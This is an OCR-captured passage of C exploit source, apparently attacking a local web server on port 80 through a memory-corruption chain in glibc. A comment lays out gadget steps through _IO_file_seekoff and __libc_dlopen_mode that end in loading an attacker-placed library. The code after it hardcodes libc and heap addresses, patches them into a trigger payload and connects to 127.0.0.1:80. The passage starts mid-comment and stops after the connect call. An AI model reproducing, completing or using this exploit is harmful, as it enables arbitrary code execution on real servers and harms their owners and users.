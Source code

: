4-_IO_file_seekoff:
Write a user-controlled pointer to (%esp) and $0x1 to (%esp+0x4)
 
   0x00736ff7 <_IO_file_seekoff+407>:   mov    0x8(%ebp),%ecx
   0x00736ffa <_IO_file_seekoff+410>:   mov    0x14(%ebp),%edx
   0x00736ffd <_IO_file_seekoff+413>:   mov    0x4c(%ecx),%eax
   0x00737000 <_IO_file_seekoff+416>:   mov    %esi,0x4(%esp)
   0x00737004 <_IO_file_seekoff+420>:   mov    %edx,0xc(%esp)
   0x00737008 <_IO_file_seekoff+424>:   mov    %edi,0x8(%esp)
   0x0073700c <_IO_file_seekoff+428>:   mov    %ecx,(%esp)
   0x0073700f <_IO_file_seekoff+431>:   call   *0x40(%eax)
 
5-__libc_dlopen_mode:
Load the library placed within the directory, where also .htaccess is
 
*/
 
  int   libcMapPos=0x14f000;
  int   heapTargetPos=0xabe04000;
  struct sockaddr_in    address;
  int   socketFd=-1;
  int   result;
  char  buffer[1<<12];
  char* endArgs[2];
 
  for(argPos=1; argPos<argc; argPos++) {
    if(!strcmp(argv[argPos], "--LibcMapPos")) {
      libcMapPos=strtoul(argv[++argPos], NULL, 0);
      continue;
    }
 
    fprintf(stderr, "Unkown argument %s\n", argv[argPos]);
    return(1);
  }
  fprintf(stderr, "Using libc map pos at 0x%x\n", libcMapPos);
 
// Set libcMapPos in trigger payload
  for(result=0; triggerLibcPointers[result]>=0; result++) {
    *((int*)(triggerData+triggerLibcPointers[result]))+=libcMapPos;
  }
 
  fprintf(stderr, "Opening ...\n");
  socketFd=socket(AF_INET, SOCK_STREAM, 0);
  if(socketFd<0) {
    fprintf(stderr, "Socket open failed, error %s\n",
        (char*)strerror(errno));
    exit(1);
  }
 
  address.sin_family=AF_INET;
  address.sin_port=htons(80);
  address.sin_addr.s_addr=htonl(0x7f000001);
  result=connect(socketFd, (struct sockaddr*)(&address),
      sizeof(struct sockaddr_in));
  if(result) {
    fprintf(stderr, "Connect failed, error %s\n", (char*)strerror(errno));
    close(socketFd); 
    socketFd=-1;
    exit(1);
  }
 